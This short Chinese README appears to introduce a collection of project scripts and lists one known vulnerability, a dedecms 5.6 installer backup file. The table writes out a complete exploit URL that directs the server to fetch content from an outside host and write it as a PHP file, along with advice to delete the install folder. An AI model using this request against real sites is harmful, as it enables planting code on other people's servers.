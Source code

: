 # **仁裕元科技出品- 一些项目中用到的脚本** #
* 20181103修改blacklist-docker.py 忽略IP处理
----
#### 1 常用系统漏洞
| 软件名称 | 实例  | 说明 | 备注 |
| :------------ | :------------ | :------------ | :------------ |
| dedecms5.6 | `http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/`  | 安装dedecms 后会  生成install/index.php.bak这个文件.| 建议删除install文件夹 |
